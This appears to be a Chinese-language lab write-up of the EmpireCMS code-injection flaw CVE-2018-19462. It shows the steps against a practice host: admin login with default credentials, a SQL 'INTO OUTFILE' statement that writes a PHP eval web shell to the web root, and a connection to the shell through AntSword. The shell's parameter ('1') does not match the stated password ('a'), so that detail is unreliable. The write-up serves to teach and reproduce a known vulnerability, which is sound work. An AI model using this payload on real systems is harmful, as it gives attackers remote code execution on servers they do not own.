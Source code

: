 # EmpireCMS代码注入(CVE-2018-19462)
## 漏洞描述
EmpireCMS7.5及之前版本中的admindbDoSql.php文件存在代码注入漏洞。该漏洞源于外部输入数据构造代码段的过程中,网路系统或产品未正确过滤其中的特殊元素。攻击者可利用该漏洞生成非法的代码段,修改网络系统或组件的预期的执行控制流。

## 影响版本
EmpireCMS<=7.5

## 利用流程
1.访问地址：http://118.193.36.37:60736/empirecms/e/admin/ 并登录admin/123456
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/EmpireCMS%E4%BB%A3%E7%A0%81%E6%B3%A8%E5%85%A5(CVE-2018-19462)/1.jpg)
2.点击系统 -> 备份与恢复数据 -> 执行SQL语句：
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/EmpireCMS%E4%BB%A3%E7%A0%81%E6%B3%A8%E5%85%A5(CVE-2018-19462)/2.jpg)
3.尝试写入一句话木马：
```
select '<?php @eval($_POST[1])?>' into outfile 'Path/shell.php'
```
构造尝试Path，直到试出正确地址
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/EmpireCMS%E4%BB%A3%E7%A0%81%E6%B3%A8%E5%85%A5(CVE-2018-19462)/3.jpg)
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/EmpireCMS%E4%BB%A3%E7%A0%81%E6%B3%A8%E5%85%A5(CVE-2018-19462)/4.jpg)
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/EmpireCMS%E4%BB%A3%E7%A0%81%E6%B3%A8%E5%85%A5(CVE-2018-19462)/5.jpg)
```
select '<?php @eval($_POST[1])?>' into outfile '/var/www/html/shell.php'
```
4.尝试连接一句话木马：
```
http://118.193.36.37:60736/shell.php
```
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/EmpireCMS%E4%BB%A3%E7%A0%81%E6%B3%A8%E5%85%A5(CVE-2018-19462)/6.jpg)
5.蚁剑连接 
```
http://118.193.36.37:60736/shell.php	密码a
```
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/EmpireCMS%E4%BB%A3%E7%A0%81%E6%B3%A8%E5%85%A5(CVE-2018-19462)/7.jpg)
